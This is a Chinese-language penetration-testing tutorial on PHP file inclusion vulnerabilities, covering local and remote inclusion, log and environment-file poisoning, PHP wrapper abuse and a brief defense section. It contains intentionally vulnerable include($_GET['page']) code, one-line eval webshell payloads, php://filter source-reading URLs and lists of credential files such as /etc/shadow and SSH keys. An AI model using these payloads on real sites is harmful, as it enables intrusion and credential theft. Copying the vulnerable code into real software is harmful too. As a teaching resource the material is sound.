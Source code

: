+++
date = "2016-07-26T09:24:22+08:00"
description = ""
draft = false
tags = ["文件包含"]
title = "文件包含漏洞"
topics = ["Pentest"]

+++

### 0x00 文件包含
> ```
  程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。
  程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。
  几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,
而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。
  在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。
```

### 0x01 常见文件包含函数
> ```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

> ``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
* 执行任意代码
* 读取文件源码或敏感信息
* 包含恶意文件控制网站
* 甚至控制服务器

### 0x04 漏洞分类
* 本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    * 读敏感文件，读PHP文件
    * 包含日志文件GetShell
    * 上传图片马，然后包含从而GetShell
    * 包含/proc/self/envion文件GetShell
    * 包含data:或php://input等伪协议
    * 若有phpinfo则可以包含临时文件
* 远程文件包含：可以直接执行任意代码
    * 要保证php.ini中allow_url_fopen和allow_url_include要为On

### 0x05 漏洞挖掘
> 上AWVS或者自己写代码测试

### 0x06 本地包含GetShell
* 示例一

> ```php
<?php
    if (@$_GET['page']) {  
        include($_GET['page']);
    } else {  
        include "show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload1.png)
<br>
![文件包含-验证能包含图片马](/img/post/file_include_upload1_check.png)

* 示例二

> ```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload2.png)
<br />
![文件包含-验证能包含图片马](/img/post/file_include_upload2_check.png)

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=off)

> ```php
<?php
    if (@$_GET['page']) {
        include "./action/".$_GET['page'].".php";
        echo "./action/".$_GET['page'].".php";
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload3.png)
<br />
![文件包含-验证能包含图片马](/img/post/file_include_upload3_check.png)
<br>
还有一个路径长度截断，Linux可以用./或/截断，需要文件名长度大于4096，Windows可以  
用\\.或./或\或/截断，需要大于256，是否能成功截断有多方面原因，可以说是靠运气的

* 包含图片马写shell

> ```
上传图片马，马包含的代码为<?fputs(fopen("shell.php","w"),"<?php eval($_POST[xxser]);?>")?>，
上传后图片路径为/uploadfile/201643.jpg，当访问
http://localhost/dvwa/vulnerabilities/fi/?page=../../uploadfile/201643.jpg时，
将会在fi这个文件夹下生成shell.php,内容为<?php eval($_POST[xxser]);?>
```

* 包含日志GetShell(主要是得到日志的路径)

> ```
读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
> 日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
![文件包含-包含日志](/img/post/file_include_access.log1.png)
可以通过Burp Suite来绕过编码
![文件包含-包含日志](/img/post/file_include_access.log2.png)
日志内容如下：
![文件包含-包含日志](/img/post/file_include_access.log3.png)
<br />
![文件包含-包含日志](/img/post/file_include_access.log4.png)

* 包含环境变量文件GetShell

> ```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

* 使用PHP封装协议GetShell

> ```
allow_url_include=On时,若执行http://www.xxx.com/index.php?page=php://input,并且提
交数据<?php fputs(fopen("shell.php","w"),"<?php eval($_POST['xxxser']);?>") ?>
结果将在index.php所在文件下生成一句话文件shell.php
```
![文件包含-用PHP封装协议写shell1](/img/post/file_include_enprotocol1.png)
<br />
![文件包含-用PHP封装协议写shell2](/img/post/file_include_enprotocol2.png)

* phpinfo包含临时文件GetShell

> ```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

### 0x07 本地包含读文件
* 读敏感文件

> ![文件包含-读敏感文件](/img/post/file_include_read_file.png)
可读如下敏感文件：

> ```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件源码

> ```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

### 0x08 远程包含
> 注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
![文件包含-远程包含](/img/post/file_include_remote_include.png)
若在a.txt写入<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[xxx]); ?>") ?>，可直接写shell

### 0x09 漏洞防御
> ```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```